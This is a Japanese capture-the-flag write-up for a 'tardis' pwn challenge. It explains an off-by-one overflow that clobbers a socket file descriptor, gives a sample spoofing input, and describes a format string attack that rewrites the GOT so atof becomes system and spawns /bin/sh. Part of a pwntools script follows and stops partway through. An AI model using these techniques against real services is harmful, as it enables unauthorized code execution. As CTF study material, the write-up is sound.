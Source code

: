 #### 2

tardis keyは固定なのでこれもすぐ。
gdbを使えば手に入る。
1文字ずつ判定し違ったらその場で落ちる仕様なので、無理矢理前から1文字ずつ確定させていくこともできる。

#### 3

consoleの起動にはbuffer overflowの脆弱性を利用する。`Selection: `に対する入力で、直前で`bzero(buf, 8)`しているのに`read(STDIN_FILENO, buf, 9)`している。これは別の箇所で用いられているsocketのfile descriptorの下位1byteを上書きする[^5]。

上書きされるfile descriptorであるが、`alarm`を使って2秒ごとに、ここから4byte読み現在時間を表す変数に書き込む。`1. Turn on the console`を選択した際、この値を見て`0x55592b6c < t <= 0x55592b7f`であればconsoleが起動する。

よって`1AAAAAAA\x00`のような入力を送りsocketのfdを`0`にし、範囲内の`0x55592b6d`などの値を送り時間を調整し、再度`1\n`を送ればconsoleが有効化される。有効化した後はfdを戻しておくとよい。

#### 4

最後は単純なformat文字列攻撃である。
特定の座標を入力すると`occupied by another TARDIS`と言われる。このときformat文字列攻撃が可能である。
この座標はgdbで追えば分かる。

攻撃は教科書通りである。
gotが書き込み可能であるので、`atof`を`system`に書き換え`,/bin/sh`を送るとよい。

### 実装

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import time
import operator
import string

def recv_header(p):
    p.recvline()
    p.recvline()
    p.recvline()

def solve_game(p):
    wasd_to_yx = { 'w': (-1,0), 'a': (0,-1), 's': (1,0), 'd': (0,1) }
    fadd = lambda p, q: map(operator.add, p, q)
    fsub = lambda p, q: map(operator.sub, p, q)
    on_field = lambda p, field: 0 <= p[0] < len(field) and 0 <= p[1] < len(field[p[0]])
    while True:
        s = p.recvn(528)
        field = map(lambda t: t[3:], s.splitlines()[1:-1])
        you = None
        goal = None
        for y in range(len(field)):
            for x in range(len(field[y])):
                if field[y][x] in '^V<>':
                    you = (y, x)
                elif field[y][x] in 'ET':
                    goal = (y, x)
        acts = []
        for c in 'wasd':
            nyou = fadd(you, wasd_to_yx[c])
            try:
                if on_field(nyou, field) and field[nyou[0]][nyou[1]] != 'A':
                    dist = sum(map(abs, fsub(nyou, goal)))
                    acts.append((c, dist))
            except IndexError:
                pass
        acts.sort(key=lambda x: x[1])
```

[^1]: <http://charo-it.hatenablog.jp/entry/2015/05/19/114004>
[^2]: <http://stackoverflow.com/questions/16302575/distinguish-shared-objects-from-position-independent-executables>
[^3]: <https://ezoeryou.github.io/blog/article/2015-04-16-PIC.html>
[^4]: <http://7shi.hateblo.jp/entry/2013/05/25/103050>
[^5]: 1byte漏らしてるのはすぐに気付けたけど、これがsocketを上書きしてることは気付けませんでした。writeupを見ました。
[^6]: libcはuploadされてないだけで本番は与えられていたのかな、と思っていたけどそうではなかったらしい。